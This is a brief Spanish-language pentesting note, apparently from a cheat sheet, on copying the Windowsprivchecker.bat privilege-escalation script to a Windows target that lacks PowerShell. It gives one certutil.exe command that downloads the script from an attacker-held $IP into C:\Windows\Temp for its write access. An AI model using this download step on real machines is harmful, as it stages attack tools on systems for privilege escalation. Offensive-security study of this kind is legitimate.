 ## Windowsprivchecker.bat

Utilizado para Windows sin Powershell
Pasar a la maquina 
```
certutil.exe -urlcache -split -f "http://$IP/windowsprivchecker.bat" C:\Windows\Temp\privesc.bat < recomendacion por permisos de escritura 
```

